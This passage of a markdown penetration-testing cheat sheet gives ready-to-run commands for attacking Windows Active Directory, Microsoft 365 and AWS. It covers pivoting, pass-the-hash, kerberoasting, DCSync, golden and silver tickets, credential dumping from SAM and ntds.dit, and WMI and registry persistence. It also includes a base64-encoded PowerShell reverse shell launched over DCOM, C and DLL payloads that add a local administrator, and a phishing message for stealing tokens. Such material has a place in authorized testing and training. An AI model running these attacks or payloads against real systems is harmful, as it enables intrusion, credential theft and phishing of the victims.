rem create a firewall rule to open port 2222 on a compromised host
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```


</details>

<details>
<summary>sshuttle</summary>
leverage a forwarded port to provide transparent access to an internal network (as if connected to a VPN)

``` bash
# forward port 2222 on the compromised host to port 22 on 10.4.50.215
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

# on the attacking machine, configure sshuttle to use the forwarded port with the provided subnets
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

# on the attacking machine, connect to a host as if connected to a VPN 
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
</details>

<details>
<summary> windows - living off the land </summary>

``` bat
rem using ping, scan a network range for live hosts (from 1-254)
for /l %i in (1,1,254) do @ping 192.168.1.%i -w 10 -n 1 | find "Reply"

rem powershell one-liner to scan a host for open ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null

rem enable clientside WinRM components (enabled by default on windows serverside, but not on clients)
Enable-PSRemoting

rem enable CredSSP
winrm set winrm/config/client/auth '@{CredSSP ="true"}'

rem trust any host
Set-Item WSMan:localhost\client\trustedhosts -value *

rem expose and use an smb share
rem (on the "sharing" machine)
net share ShareName=C:\Share /grant:Everyone,FULL
icacls C:\Share /grant Everyone:F

rem on the machine wanting to access the share
rem if you need to authenticate 
net use \\ms01\share /user:domain.com\user.name Password123
net use \\ms01\share 
dir \\ms01\share 
```
</details>

<details>
<summary> Permission Delegation </summary>

``` powershell
# if a compromised user account has "genericwrite" for a group (found using bloodhound), then they can add themselves to that group
Add-ADGroupMember "IT Support" -Members "username"

# verify that it worked 
Get-ADGroupMember -Identity "IT Support"

# force the DC sync
gpupdate /force

# if the compromised account has inherited the ForceChangePassword Permission Delegation, we can change a group member's password
$Password = ConvertTo-SecureString "newpassword" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```
</details>

<details>
<summary> get SAM hive (local accounts) </summary>

``` bat
rem get SAM hive
reg save HKLM\SAM C:\SAM.hive

rem get the key for decrypting SAM
reg save HKLM\SYSTEM C:\SYSTEM
```
``` bash
# exfil the above files back to attcker machine, and dump the hashes
secretsdump.py -ntds ~/sam.hive -system ~/system -outputfile hashes.txt LOCAL
```
</details>

<details>
<summary> pass-the-hash (NTLM) </summary>

PtH requires SMB (port 445) access, Windows File and Printer Sharing enabled, and the ADMIN$ share to be available. Attackers must have valid local admin credentials to move laterally.

1. Obtain NT hashes from SAM or ntds.dit
2. Use the hashes themselves to authenticate

tools that support PTH:
- PsExec from Metasploit
- Passing-the-hash toolkit
- Impacket

example usage: 
``` bash
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

</details>

<details>
<summary>overpass the hash</summary>

this technique essentially abuses an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use the TGT to obtain a Ticket Granting Service (TGS).

with a user's hash, we can start a powershell session as the user and obtain a TGT 
``` bat
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

This will spawn a new powershell session 

```powershell
# note running whoami will not show the new user, this is to be expected. Also, no TGT has been obtained yet
klist

# to get a TGT, authenticate to a network share
net use \\files04

# now, a TGT has been granted for the jen user
klist
```

the official PsExec application cannot use password hashes, but with a valid Kerberos TGT, it can be reused for remote code execution on a target host.

``` powershell
.\PsExec.exe \\files04 cmd
```
</details>

<details>
<summary> sniffing (NetNTLMv2 challenge/reponse) </summary>

1. start a fake SMB server
2. coerce NTLMv2 authentication (ip based) or wait for authentication (vuln scanners), or embedding a remote picture (hosted on your smb shared) in a word document
3. challenge the client, record response 

#### responder
``` bash
# assuming the attacker is on the same network as the target, Responder can resolve any LLMNR requests and capture NTLMv2 hashes.
sudo Responder.py -I eth0

# once running, once the victim attempts to connect to a system (via SMB)that does not exist, responder will posion the resolution of the host, and capture the hash. 

# once the hash is obtained, the hash can be cracked with hashcat
hashcat -m 5600 /tools/responder/logs/* /usr/share/rockyou.txt
```
#### pcap
``` bash
# start listener on port 445 on attacker machine 
sudo tcpdump -nv -w winauth.pcap port 445

# extract hashes from pcap
sudo /pcredz/pcredz -vf winauth.pcap

# crack NTLMv2 challenge/response
hashcat -m 5600 /pcredz/logs/NTLMv2.txt passwords.txt 
```
</details>

<details>
<summary> kerberoast </summary>

A service ticket is encrypted using the SPN's password hash. If we can request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account.

Note, if we control an account with GenericWrite or GenericAll permissions on another AD user account, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to set an SPN for the user, kerberoast the account, and crack the password hash in an attack named targeted Kerberoasting.

``` bash
# find user accounts (not computer accounts) who have registered SPNs (or get them from bloodhound)
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59 > spns.txt

# NOTE: If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.

# extract just the TGS tickets from the GetUserSPNs output
grep krb5tgs spns.txt > tgs.txt

# GetUserSPNs will provide the TGS ticket, which can be cracked with hashcat (in this case prepend password guesses with a single digit)
hashcat -m 13100 -a 7 tgs.txt ?d rockyou.txt
```

same thing with rubeus

``` bat
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

</details>

<details>
<summary>AS-REP Roasting</summary>

Identify accounts with "Do not require Kerberos preauthentication" setting so that we can send an AS-REQ as the user, obtain the AS-REP, and crack their password offline.

Note, if we control an account with GenericWrite or GenericAll permissions on another AD user account, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to modify the User Account Control value of the user to not require Kerberos preauthentication in order to perform AS-REP Roasting. This attack is known as Targeted AS-REP Roasting. 

``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/user:password

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

same thing using rubeus

``` bat
.\Rubeus.exe asreproast /nowrap
```

</details>

<details>
<summary> pass-the-ticket (kerberos) </summary>

``` bash
# all we're doing here, is stealing a user's TGT and using it on the compromised user's machine running mimikatz, list TGT ticket
kerberos::tgt

# export the TGT ticket
kerberos::list /export

# on new system, load the stolen TGT ticket
kerberos::ptt ticket.kirbi

# now, in the same cmd prompt, you can authenticate to services as the compromised user
psexec \\dc01 cmd.exe
```

pulling tickets from memory:

``` bash
privilege::debug
sekurlsa::tickets /export

# inject the ticket 
kerberos::ptt dave@cifs-web04.kirbi

# confirm it got loaded 
klist

# use it
ls \\web04\backup
```

</details>

<details>
<summary>DCOM</summary>

Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.

``` powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73")) # change target IP 

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7") # base64 encoded powershell reverse shell 
```

</details>

## Persistence
- create a new user/password
- add attacker ssh public key to authorized_keys file
- create a scheduled task
- create a WMI event consumer
``` powershell
# create an event filter (trigger called) "Updater" which looks for failed logins (event ID 4625) from "fakeuser"
$filter = SetWmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '4625' AND TargetInstance.Message LIKE '$fakeuser%'"; QueryLanguage = 'WQL'}

# setup the event consumer action (consumer)
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\payload.exe"}

# setup the binding to look for the trigger and run the consumer
$FilterToConsumerBunding = Set-WmiInstance -NameSpace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
```
- add an executable/script to the windows startup folder
- registry keys
``` bat
rem these keys are often used for persistence
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
rem cmd autorun - when cmd loads, it looks for registry variables to execute first
HKCU\SOFTWARE\Microsoft\Command Processor\AutoRun
rem HKCU Load - not used in modern windows but still supported
HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows

rem example of adding a user registry key called "AppUpdateMon" which runs a malicious binary each time the user logs in
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "AppUpdateMon" /t REG_SZ /F /D "C:\payload.exe"
```


## Privilege Escalation

<details>
<summary><b>Linux</b></summary>

1. [GTFOBins](https://gtfobins.github.io/)  
2. [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  
3. Cheatsheets: 

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

- https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html

4. container escape

``` bash
# check if you are in a container
cat /proc/mounts

# check for excessive capabilities
cat /proc/1/status | grep Cap

# decode the capabilities
capsh --decode=0000003fffffffff

# The presence of cap_net_admin and cap_sys_admin indicates that this container is either running in a privileged context or, at the very least, with all capabilities added. 

```

</details>

<details>
<summary><b>Windows</b></summary>

<details>
<summary>LOLBAS</summary>
<a href="https://lolbas-project.github.io/#">https://lolbas-project.github.io/#</a>
</details>

<details>
<summary>UAC Bypass</summary>
<a href="https://github.com/hfiref0x/UACME">https://github.com/hfiref0x/UACME</a>
</details>

<details>
<summary> Automated Checks </summary>

1. winpeas (https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
2. powerup.ps1 (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3. seatbelt (https://github.com/GhostPack/Seatbelt)

</details>

<details>
<summary>scheduled tasks</summary>

this is simmilar to service binary hijacking. If you have the proper permissions on an executable for a scheduled task, you can hijack it and its permissions. 

``` bat
rem query scheduled tasks, look for non-system tasks
schtasks /query /fo LIST /v
```
</details>

<details>
<summary> Unquoted Service Paths </summary>

an unquoted service path search might look like this 
1. C:\Program.exe
2. C:\Program Files\Enterprise.exe
3. C:\Program Files\Enterprise Apps\Current.exe
4. C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

``` bat
rem find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

rem List of services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
if you can find a service path which you have the proper permissions to write to, you can add a malicious binary with the proper name in order to hijack service execution. 

</details>

<details>
<summary> Service Binary Hijacking </summary>
overwrite a service executable with our own

``` bat
rem List services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

rem check permissioms of a service binary
icacls "C:\xampp\mysql\bin\mysqld.exe"
```
next, create a new binary on the attacker machine as `service.c`. You can also use msfvenom or other payload providers. 
``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
now, we can cross compile it and put it on the victim machine and restart the service. 

``` bash
x86_64-w64-mingw32-gcc service.c -o service.exe
```
</details>

<details>
<summary> DLL search order hijacking </summary>

The following listing shows the standard search order taken from Microsoft Documentation:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

If you can identify a program that is missing a dll, or you find that you can insert one higher up in the order, you could force the application to attach to your malicious dll. 

Procmon will be useful to identify program missing dll's.

On your attacker machine, cross compile a malicious dll as `mal.cpp`

``` cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
now, cross compile
``` bash
x86_64-w64-mingw32-gcc mal.cpp --shared -o SharedLib.dll
```

</details>

<details>
<summary> group policy preferences file </summary>

msft publishes the [AES key](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
``` powershell
# find cpassword under the sysvol share in any xml file
Get-ChildItem -Path "$env:LOGONSERVER\sysvol" -Filter *.xml -Recurse | Select-String "cpassword"
```

``` bash
gpp-decrypt ENCRYPTED_PASSWORD
```

</details>

<details>
<summary>Recovering Credentials from a PXE Boot Image</summary>
</details>

<details>
<summary>always install elevated registry setting </summary>

``` bat
rem This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
</details>

<details>
<summary> unattended install files</summary>

``` powershell
# unattended install files typically in these locations
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\windows\sysprep\sysprep.inf
c:\windows\sysprep\sysprep.xml
c:\windows\system32sysprep\Unattended.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
</details>

<details>
<summary>Exploits</summary>

privileges that may lead to privilege escalation are SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug and SeImpersonatePrivilege.

check for kernel vulns from microsoft https://msrc.microsoft.com/update-guide

``` bat
rem look for user privileges 
whoami /priv
whoami /all

rem get system info and patch info 
systeminfo
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```

</details>
</details>

## Domination

<details>
<summary> DCSync </summary>

The DRS Remote Protocol lets domain controllers replicate without verifying the request source, only the requester’s rights. Users with replication rights (Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set) which are granted by default to Domain/Enterprise Admins and Administrators can launch a DCSync attack to impersonate a domain controller and extract credentials.

``` bat
rem using mimikatz, extract the krbtgt hash via replication using the Directory Replication Service Remote (DRSR) Protocol. In this case, you can retrieve any domain user, not just krbtgt
lsadump::dcsync /user:krbtgt
```

using impacket

``` bash
# impacket will use DRSUAPI, the Microsoft API implementing the Directory Replication Service Remote Protocol, in order to get NTDS.DIT secrets
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

</details>

<details>
<summary> skeleton key </summary>

``` bat
rem using mimikatz, a skelton key can be loaded into memory on a domain controller that allows anyone to authenticate as any user in the domain with the password "mimikatz"
privilege::debug
misc::skeleton
```
</details>

<details>
<summary>volume shadow copy</summary>

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file.

``` bat
rem take note of the shadow copy device name.
vshadow.exe -nw -p  C:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

rem we also need to grab the system hive 
reg.exe save hklm\system c:\system.bak
```

``` bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

</details>

<details>
<summary> extract ntds.dit oneliner </summary>

``` bat
ntdsutil "ac in ntds" "ifm" "cr fu c:\mybackup" q q
```
</details>

<details>
<summary> extract ntds.dit (to be used for golden ticket) </summary>

target machine (domain controller):
``` bat
rem as administrator on a domain controller, list shadow copies
vssadmin.exe list

rem if no existing copies, create one. 
vssadmin.exe create shadow /for=c:

rem copy the ntds.dit file from the shadoy copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\temp\ntds.dit

rem in order to extract hashes from ntds.dit you need the encryption key from the system hive. save the key from the registry:
reg save hklm\system c:\temp\system /y
```
attacker machine:
``` bash
# now, extract the ntds.dit and system files from the dc (use smbclient.py or whatever works). Once obtained, on the attacker machine, dump hashes
secretsdump.py -ntds ~/ntds.dit -system ~/system -outputfile hashes.txt LOCAL

# alternatively, you could do all of the above remotely using secretsdump.py. specifically here, were looking for the krbtgt hash
secretsdump.py domain.com/username:'password'@10.20.10.10 -just-dc-user krbtgt

# --------- with the above hashes, we can conduct the following golden ticket attack --------- #

# get the SID for the domain (stop lookup after enumerating to 520)
lookupsid.py domain.com/username:'password'@10.20.10.10 520

# armed with the domain SID and the krbtgt AES key, we can create a golen ticket
ticketer.py -domain domain.com -domain-sid S-1-5-21-XXXXXXXXX-YYYYYYYYY -aesKey AES_KEY_HERE Administrator

# export the ticket to later be used by impacket 
export KRB5CCNAME=Administrator.ccache

# use the ticket with impacket against a fileserver on the domain and run a command remotely
wmiexec.py -k -no-pass -dc-ip 10.20.10.10 file01.domain.com hostname
```
</details>

<details>
<summary>golden ticket (using mimikatz)</summary>

``` bash
# dump ntds.dit on the domain controller to get the krbtgt hash and domain SID
privilege::debug
lsadump::lsa /patch

# purge existsing tickets
kerberos::purge

# forge the ticket 
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# open a cmd window with the golden ticket
misc::cmd

# now, psexec can be used with the golden ticket to authenticate
PsExec.exe \\dc1 cmd.exe
```
</details>

<details>
<summary> silver ticket </summary>

Due to how tickets are constructed and validated, we can contruct our own valid ticket for a specific SPN if we have the following information:

1. Password or hash for the SPN's account
2. domain SID
3. The target SPN

``` bat
rem obtain the domain SID
lookupsid.py domain.com/username:'password'@10.20.10.10 520

rem in this case, we want to obtain the aes256 hash for a computer account (in this case file01$)
secretsdump.py domain.com/username:password@10.20.10.10 -just-dc-user file01$

rem using rubeus (could also use ticketer) generate the ticket for the SMB service on the fileserver
Rubeus.exe silver /service:cifs/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:username

rem ensure the kerberos ticket has been loaded into local memory 
klist

rem now, try to access the server
dir \\file01.domain.com\c$

rem in this example, we can instead forge a ticket for a different "serviceclass" (we did cifs before) that lets us query the target's event logs using an arbitrary username and user id
Rubeus.exe silver /service:host/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:anything /id:777

rem now query the event logs
wevutil /r:file01.domain.com qe Security "/q:*[System/EventID=4624] and *[EventData/Data[@Name='TargetUserName'='anything']" /f:text /c:1
```

using mimikatz:

```bat
rem dump password hashes 
privilege::debug
sekurlsa::logonpasswords

rem obtain SID
whoami /user

rem forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

rem confirm ticket has been loaded into memory 
exit
klist 

rem confirm access to service
iwr -UseDefaultCredentials http://web04
```

</details>

## Microsoft O365
<details>
<summary> AADInternals </summary>

``` powershell
# conduct azure recon on given domain name
Invoke-AADIntReconAsOutsider -DomainName domain.com | Format-Table

# pass list of users to verify valid usernames
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal

# Send a phishing email to recipients using customised message and save the tokens to cache
$message = 'Dear recipient, <br> Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@domain.com","wvictim2@domain.com" -Subject "Your Microsoft account is compromised - Actions required." -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache

# open a user's mailbox using the tokens you just obtained from previous phishing
Open-AADIntOWA
```
</details>

<details>
<summary> Password Spraying Azure </summary>

``` bash
# use trevorspray to get the token endpoint
trevorspray --recon domain.com

# spray passwords against known users
trevorspray --users /tmp/users.txt --passwords /tmp/passwords.txt --url 'https://login.windows.net/TENANT-ID/oauth2/token'

```
</details>

<details>
<summary> GraphRunner </summary>

``` powershell
# obtain a devicelogin token to use in a phishing email
Get-GraphTokens

# check security groups using the auth tokens obtained from prior phishing attack
Get-SecurityGroups -Tokens $tokens

# identify dynamic security groups to possibly use for privelege escalation
Get-DynamicGroups -Tokens $tokens
```
</details>

## Cloud
<details>
<summary> cloud_enum </summary>

``` bash
# scan an aws cloud bucket that you know the name of
cloud_enum -k lab-assets-dev-axevtewi --quickscan --disable-azure --disable-gcp
```
</details>

<details>
<summary> cli </summary>

the attacker will need an account with the CSP (cloud service provider) in order to interact via cli. the cli can be powerful 

``` bash
# use aws cli to search for public resources
aws configure --profile your_profile

# confirm logged in 
aws --profile your_profile sts get-caller-identity

# look for public EC2's, filtering on description
aws --profile attacker ec2 describe-images --executable-users all --filters "Name=description,Values=*CompanyName*"

#same as above, filtering on name
aws --profile attacker ec2 describe-images --executable-users all --filters "Name=name,Values=*ComapnyName*"
```
</details>

<details>
<summary> pacu </summary>

``` bash
# start an interactive shell 
pacu

# import a previously authenticated profile
import_keys attacker

# list modules
ls

# see more information on a module
help iam__enum_roles

# brut force valid IAM roles in a target account 
run iam__enum_roles --word-list /tmp/role-names.txt --account-id 123456789012
```
</details>